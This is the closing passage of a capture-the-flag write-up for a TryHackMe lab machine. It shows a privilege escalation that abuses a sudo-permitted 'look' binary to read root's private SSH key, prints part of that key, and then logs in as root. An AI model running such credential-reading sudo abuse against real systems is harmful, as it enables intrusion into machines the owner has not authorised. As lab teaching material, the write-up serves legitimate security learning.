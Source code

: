 ### think -> root

Checking our privileges as `think` we see that we can run look as root

```terminal
think@lookup:/$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

A quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/look/#sudo) we find how to read any file.

We can use that to read the root's private ssh key.

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[...]
3qXILoUzSmRum2r6eTHXVZbbX2NCBj7uH2PUgpzso9m7qdf7nb7BKkR585f4pUuI01pUD0
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

We copy the key to our machine, give it 600 permissions and connect with it.

```terminal
┌──[10.8.81.165]─[sirius💀parrot]-[~/ctf/thm/lookup]
└──╼[★]$ vim id_rsa   

┌──[10.8.81.165]─[sirius💀parrot]-[~/ctf/thm/lookup]
└──╼[★]$ chmod 600 id_rsa    

┌──[10.8.81.165]─[sirius💀parrot]-[~/ctf/thm/lookup]
└──╼[★]$ ssh -i id_rsa root@lookup.thm
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
[...]
Last login: Mon May 13 10:00:24 2024 from 192.168.14.1
root@lookup:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

<https://nvd.nist.gov/vuln/detail/CVE-2019-9194>

<https://gtfobins.github.io/gtfobins/look/#sudo>
